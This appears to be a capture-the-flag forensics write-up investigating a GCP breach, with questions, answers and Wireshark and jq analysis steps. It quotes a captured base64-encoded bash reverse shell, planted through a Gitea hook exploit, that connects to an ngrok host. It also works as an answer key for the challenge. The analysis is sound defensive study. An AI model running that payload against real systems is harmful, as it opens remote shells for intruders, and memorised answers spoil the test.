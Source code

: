 # MisCloud

## Speech
```
My name is John. I am a student who started an e-commerce startup business named "DummyExample" with my partner, James. Initially, I was using WordPress and shared hosting. After experiencing good traffic, I decided to migrate from WordPress to a customized website on Google Cloud Platform (GCP). Currently, my partner and I are working on the website, contributing to a Gitea server hosted on GCP. I migrated all customer data to cloud storage. Recently, my data was breached, and I have no clue how it happened or what was vulnerable. My GCP infrastructure consists of five VM instances and a single Cloud Storage. There is one Windows machine for my partner to use, with very restricted permissions over GCP, only allowing access to his Gitea account. I have two Linux machines for my work, one for hosting the Gitea server and another for packet mirroring. All the machines have public IPs but very restricted access due to firewalls in place. Due to budget constraints, I can't use the Google Security Command Center service, so I am providing you with the VPC network traffic capture and the Google Cloud logs.
```

## Questions
1. What's the private IP address of the Windows machine?
    > 10.128.0.3
    - 
2. Which CVE was exploited by the threat actor?
    > CVE-2020-14144
    - I used this filter on wireshark : `(ip.src == 10.128.0.3) and http and http.request.method == POST` and I saw this command : `Form item: "content" = "#!/bin/bash\r\necho 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDUwOSAwPiYxICY=' | base64 --decode | bash"` which looks a lot like a rev shell, then I search for `"settings/hooks/git/post-receive"` (the endpoint exploited) and find this CVE
3. What is the hostname and port number to which the reverse shell was connecting?
    > 0.tcp.eu.ngrok.io:14509
    - Decode the previous base64
4. From which IP address was the CVE exploited, and is this threat an insider or outsider attack?
    > 10.128.0.3:insider
    - 
5. Which account helped the threat actor to pivot?
    > 257145238219-compute@developer.gserviceaccount.com
    - After his rev shell he must have made a 'whoami' (simple assumption) so I filtered with `frame contains "whoami"` in wireshark then I followed the TCP stream and find this adress used after the whoami
6. Which machines did the threat actor log into? (sorted alphabetically)
    > linux-machine1,linux-machine2,packet-mirror-instance
    - By using this command we can see each action of the account, in the resourceName we have the machine name:
    ```bash
    $ jq '[.[] | select(.protoPayload.authenticationInfo.principalEmail == "257145238219-compute@developer.gserviceaccount.com") | {
    ip: .protoPayload.requestMetadata.callerIp,
    timestamp: .timestamp,
    serviceName: .protoPayload.serviceName,
    methodName: .protoPayload.methodName,
    resourceName: .protoPayload.resourceName
    }]' GCloud_Logs.json
    ```

7. What's the original name of the sensitive file?
    > Customer-Data-e7b9e806c08435793e310d7137b068fa.xlsx
    - `jq '[.[].protoPayload.resourceName] | group_by(.) | map({resourceName: .[0], count: length}) | sort_by(.count) | reverse' GCloud_Logs.json`
8. Which gcloud role did the threat actor try to assign to the storage bucket to make it publicly accessible?
    > roles/storage.legacyObjectReader
    - with this command we see every actions taken on the bucket: `jq '[.[] | select(.protoPayload.resourceName != null) | select(.protoPayload.resourceName | contains("sensitive-ecomuser-data"))]' GCloud_Logs.json`
    - Then we have to scroll quite a lot to see an action of adding a role :
    ```
    "resourceName": "projects/_/buckets/sensitive-ecomuser-data/objects/Customer-Data-e7b9e806c08435793e310d7137b068fa.xlsx",
    "bindingDeltas": [
        {"action": "ADD",
        "role": "roles/storage.legacyObjectReader",
        "member": "allUsers"}
    ]

    ```
9. Which account led to the cloud storage data breach?
    > storage-svc-acc@qwiklabs-gcp-00-848c1b920007.iam.gserviceaccount.com
    - after the role adding, we continue to scroll and see this account getting the files
10. Which port number was exploited by the attacker to exfiltrate data that is allowed by default ingress traffic rules in the default VPC network?
    > 3389
    - in wireshark search for "cusdata.xlsx.enc" which is the file exfiltrate and check the ports
11. What is the key to decrypt the encrypted file?
    > J@m37_h@Rd3st_k3Y_enCrypt_Exf!l7r@73
    - In the HTTP files we have a cusdata.xlsx.enc file, we cat the beginning and see the key (a bit scrumbled but after some try in cyberchef we unxored it izily)
12. What are the SSN and credit card numbers of "Founder John"?
    > HTB-FR-SRLK:1111-3345-1234-5123
    - By opening the unxored file
13. Which Google Cloud service is an alternative to Gitea?
    > Cloud Source Repositories
    - Ask ChatGPT
14. Is it safe to use the Default Compute Engine Service Account on VM instances?
    > No
    - 
15. Which Google Cloud service restricts data exfiltration from Cloud Storage?
    > VPC Service Controls
    - Ask ChatGPT